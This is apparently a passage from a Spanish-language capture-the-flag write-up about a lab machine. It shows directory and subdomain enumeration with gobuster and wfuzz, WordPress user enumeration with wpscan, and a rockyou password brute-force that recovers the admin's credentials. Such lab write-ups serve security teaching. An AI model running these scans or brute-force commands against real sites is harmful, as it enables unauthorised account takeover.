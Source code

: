 ### Descubrimiento de Archivos
```bash
gobuster dir -u http://192.168.1.100/  -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,php.back,backup,txt,sh,html,js,java
```

- **Hallazgos**:
```bash
/index.html           (Status: 200) [Size: 1960]
/info.php             (Status: 200) [Size: 87190]
/wordpress            (Status: 301) [Size: 318] [--> http://192.168.1.100/wordpress/]
/javascript           (Status: 301) [Size: 319] [--> http://192.168.1.100/javascript/]
/phpmyadmin           (Status: 301) [Size: 319] [--> http://192.168.1.100/phpmyadmin/]
```

### Descubrimiento de Subdominios
```bash
wfuzz -c -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Host:FUZZ.escolares.dl" -u 192.168.1.100 --hl=10,76
```

- **Hallazgos**:
	No encontramos ningun subdominio

## Enumeracion `Wordpress`
```bash
wpscan --url http://escolares.dl/wordpress/ --enumerate u,vp,vt,tt,cb,dbe --plugins-detection aggressive
```
### Credenciales Encontradas
Tenemos un usuario administrador:
```bash
[i] User(s) Identified:

[+] admin
 | Found By: Wp Json Api (Aggressive Detection)
```

Ahora realizaremos fuerza bruta para el usuario admin:
```bash
wpscan --url http://escolares.dl/wordpress/ --passwords /usr/share/wordlists/rockyou.txt --usernames admin
```

Obtenemos credenciales validas:
```bash
!] Valid Combinations Found:
 | Username: admin, Password: rockyou
```

En estas rutas tenemos el panel de login:
```bash
/logo/                (Status: 301) [Size: 0] [--> http://escolares.dl/wordpress/wp-content/uploads/2024/12/logo.png]
/home/                (Status: 301) [Size: 0] [--> http://escolares.dl/wordpress/]
/rss/                 (Status: 301) [Size: 0] [--> http://escolares.dl/wordpress/feed/]
/about/               (Status: 200) [Size: 169447]
/login/               (Status: 302) [Size: 0] [--> http://escolares.dl/wordpress/wp-login.php]
/contact/             (Status: 200) [Size: 140028]
/i/                   (Status: 301) [Size: 0] [--> http://escolares.dl/wordpress/inicio/]
/0/                   (Status: 301) [Size: 0] [--> http://escolares.dl/wordpress/]
/feed/                (Status: 200) [Size: 827]
/atom/                (Status: 301) [Size: 0] [--> http://escolares.dl/wordpress/feed/atom/]
/s/                   (Status: 301) [Size: 0] [--> http://escolares.dl/wordpress/shows/]
/in/                  (Status: 301) [Size: 0] [--> http://escolares.dl/wordpress/inicio/]
/a/                   (Status: 301) [Size: 0] [--> http://escolares.dl/wordpress/about/]
```